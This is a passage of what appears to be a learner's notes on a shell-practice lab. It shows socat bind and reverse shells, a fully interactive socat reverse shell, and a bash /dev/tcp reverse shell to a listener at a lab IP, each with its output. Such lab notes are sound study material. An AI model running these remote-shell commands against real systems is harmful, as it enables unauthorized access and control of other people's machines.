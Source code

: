         $ socat TCP-L:9999 -  
        
        whoami
        shell

        # target machine
        hell@linux-shell-practice:~$ 
        shell@linux-shell-practice:~$ whoami
        ```
- Normal Bind Shell
    - SSH.
    - Open socat bind port at target machine.
        ```bash
        shell@linux-shell-practice:~$ socat TCP-L:9999 EXEC:"bash -li"

        ```
    - Connect to target machine socat.
        ```bash
        $ socat TCP:10.10.194.64:9999 -                                                                          1 ⨯
        whoami
        shell
        ```
- Special Command
    - Open socat listener from our linux
        ```bash
        $ socat TCP-L:9999 -
        ```
    - Connect to our linux from target machine
        ```bash
        shell@linux-shell-practice:~$ socat TCP:10.11.25.205:9999 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
        ```
    - Success!
        ```bash
        $ socat TCP-L:9999 -                                                                                   130 ⨯
        shell@linux-shell-practice:~$ whoami
        whoami
        shell
        ```

#### Look through Payloads all the Things and try some of the other reverse shell techniques. Try to analyse them and see why they work.
- Using bash
    - Set up netcat listener
        ```bash
        $ nc -lnvp 9999       
        listening on [any] 9999 ...
        ```
    - Connect to our listener from target machine
        ```bash
        shell@linux-shell-practice:~$ bash -i >& /dev/tcp/10.11.25.205/9999 0>&1
        ```
    - Success!
        ```bash
        $ nc -lnvp 9999       
        listening on [any] 9999 ...
        connect to [10.11.25.205] from (UNKNOWN) [10.10.194.64] 50556
        shell@linux-shell-practice:~$
        ```

#### TODO Windows